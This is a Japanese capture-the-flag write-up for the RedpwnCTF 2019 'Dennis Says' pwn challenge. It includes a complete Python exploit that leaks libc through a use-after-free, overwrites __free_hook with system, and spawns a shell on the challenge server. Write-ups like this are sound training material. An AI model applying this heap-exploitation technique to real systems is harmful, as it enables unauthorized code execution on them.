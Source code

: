# [pwn 344pts] Dennis Says - RedpwnCTF 2019
32ビットでPIE以外有効です。
```
$ checksec -f dennis
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   RW-RUNPATH   97 Symbols     Yes      0               6       dennis
```
double freeやらUAFがあるバイナリです。
libc-2.23なのでtcacheは使えません。
また、任意アドレスに書き込める関数があります。
RELROが無効なので、適当にGOT Overwriteすればlibcリーク&シェル起動ができそうです。
が、競技中は頭がお猿さんだったので、最初の方はUAFの方ばかり見ていて任意アドレス書き込みに気づいておらず、UAFでlibcリークしています。
```python
from ptrlib import *

def malloc(size):
    sock.sendlineafter("Command me: ", "1")
    sock.sendlineafter(" : ", str(size))
    return

def read(size):
    sock.sendlineafter("Command me: ", "2")
    sock.sendlineafter(": ", str(size))
    return sock.recv(size)

def write(data):
    sock.sendlineafter("Command me: ", "4")
    sock.sendlineafter(": ", data)
    return

def free():
    sock.sendlineafter("Command me: ", "5")
    return

def yeet():
    sock.sendlineafter("Command me: ", "3")
    return

def repeat(data):
    sock.sendlineafter("Command me: ", "6")
    sock.sendlineafter("Dennis repeat\n", data)
    return sock.recvline()

#sock = Process("./dennis")
#libc = ELF("/lib32/libc-2.27.so")
libc = ELF("./libc-2.23.so")
sock = Socket("chall2.2019.redpwn.net", 4006)
#sock = Socket("localhost", 9999)
libc_main_arena = 0x1b0780
delta = 0x30

# libc leak
malloc(0x20)
free()
malloc(0x30)
free()
malloc(0x40)
free()
malloc(0x20)
free()
libc_base = u32(read(8)[4:8]) - libc_main_arena - delta
logger.info("libc = " + hex(libc_base))

# overwrite __free_hook
malloc(0x10)
write(p32(libc_base + libc.symbol("system")) + p32(libc_base + libc.symbol("__free_hook")))
yeet()

# get the shell
malloc(0x10)
write("/bin/sh\x00")
free()

sock.interactive()
```

# 感想
また面倒なことをしてしまった。
